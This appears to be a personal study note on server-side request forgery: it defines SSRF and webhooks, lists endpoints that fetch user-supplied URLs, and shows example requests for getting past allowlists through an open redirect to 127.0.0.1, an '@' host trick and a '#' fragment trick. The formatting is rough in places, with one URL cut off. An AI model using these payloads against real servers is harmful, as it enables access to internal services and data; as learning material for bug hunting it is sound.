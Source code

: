 # explanation 
**Server-Side Request Forgery (SSRF)** is a vulnerability where an attacker tricks a server into making unintended or malicious requests to internal or external resources on behalf of the attacker.

# Webhooks 
are custom HTTP callback endpoints used as a notification system for certain application events. When an event such as new user sign-up or application error occurs, the originating site will make an HTTP request to the webhook URL. These HTTP requests help the company collect information about the website’s performance and visitors. It also helps organizations keep data in sync across multiple web applications.[example of exploiting webhook](https://hackerone.com/reports/2301565)  [another report](https://hackerone.com/reports/508459)   the explanation in the [[scenarios]]

# Potential SSRF Endpoints
- Add a new webhook:
	 `POST /webhook Host: public.example.com
	 `(POST request body) url=https://www.attacker.`

- File upload via URL:
	 `POST /upload_profile_from_url Host: public.example.com
	 `(POST request body) user_id=1234&url=https://www.attacker.com/profile.jpeg

- Proxy service:
	 `https://public.example.com/proxy?url=https://google.com





# Bypassing SSRF Protection
## Bypass Allowlists 

### Allowlists based on the website we are talking  
are generally the hardest to bypass, because they are, by default, stricter than blocklists. But getting around them is still possible if you can find an<span style="color:rgb(146, 208, 80)"> open redirect vulnerability </span>within the allowlisted domains. If you find one, you can request an allowlisted URL that redirects to an internal URL. For example, even if the site allows only profile pictures uploaded from one of its subdomains, you can induce an SSRF through an open redirect.
In the following request, we utilize an open redirect on pics.example.com to redirect the request to 127.0.0.1, the IP address for the localhost. This way, even though the url parameter passes the allowlist, it still redirects to a restricted internal address:
```
POST /upload_profile_from_url Host: public.example.com
(POST request body) user_id=1234&url=https://pics.example.com/123?redirect=127.0.0.1
```
### allow list based on regex  
`POST /upload_profile_from_url Host: public.example.com
(POST request body) user_id=1234&url=<span style="color:rgb(146, 208, 80)">https://pics.example.com@127.0.0.1</span>`
you can use <span style="color:rgb(146, 208, 80)">@</span> to tell the server what's after the @ <span style="color:rgb(146, 208, 80)">is the domain I'm talking </span> 

**or u can use** 

`(POST request body) user_id=1234&url=https://127.0.0.1#/pics.example.com
<span style="color:rgb(112, 48, 160)">the hash here commenting all the content after it </span>




